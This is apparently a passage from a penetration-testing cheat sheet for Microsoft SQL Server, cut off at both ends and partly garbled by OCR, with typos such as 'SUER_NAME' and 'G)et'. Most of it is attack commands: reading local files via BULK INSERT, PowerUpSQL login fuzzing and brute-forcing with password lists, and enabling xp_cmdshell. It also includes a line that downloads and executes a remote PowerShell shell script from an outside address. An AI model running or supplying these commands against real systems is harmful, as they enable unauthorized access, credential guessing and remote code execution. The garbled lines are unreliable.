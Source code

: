     ```
- <https://docs.microsoft.com/en-us/sql/relational-databases/system-catalog-views/sys-database-role-members-transact-sql>
- Read file: 
    ```sql
    CREATE TABLE mydata (line varchar(8000));
    BULK INSERT mydata FROM 'c:\windows\win.ini';
    SELECT line FROM mydata;
    ```
## Brute-forcing

- Check if current domain user has access to DB
    ```powershell
    Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
    ```
- Check if another domain user has access to DB
    ```powershell
    runas /noprofile /netonly /user:<domain\username>powershell.exe
    Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
    ```
- Fuzzing logins:
    ```powershell
    Get-SQLFuzzServerLogin -Instance ops-mssql –Verbose
    ```
    ```sql
    -- Above is equivalent to:
    SELECT SUER_NAME(1)
    SELECT SUER_NAME(2)
    SELECT SUER_NAME(3)
    ```
- BruteForce:
    ```powershell
    Get-SQLInstanceDomain | G)et-SQLConnectionTestThreaded -Username sa -Password Password -Verbose
    ```
    ```powershell
    $comps = $(Get-SQLInstanceDomain).ComputerName
    comps | Invoke-BruteForce -UserList C:\dict\users.txt -PasswordList C:\dict\passwords.txt -Service SQL –Verbose
    ```

## Command Execution

### xp_cmdshell

- Disabled by default since SQL Server 2005
- Executed with the privileges of SQL Server service account
- Synchronous
- `sysadmin` privileges are required
- If uninstalled: `sp_addextendedproc 'xp_cmdshell','xplog70.dll'`
- Execute command: 
  - `EXEC master..xp_cmdshell 'whoami'`
  - `xp_cmdshell powershell iex(New-Object System.Net.WebClient).DownloadString(\"http://10.10.14.8/shell.ps1\")`
- Enable xp_cmdshell: `mssqlclient.py` has `enable_xp_cmdshell`
    ```sql
    exec sp_configure 'show advanced options', 1
    RECONFIGURE
    exec sp_configure 'xp_cmdshell', 1
    RECONFIGURE
    ```
- Disable xp_cmdshell
    ```sql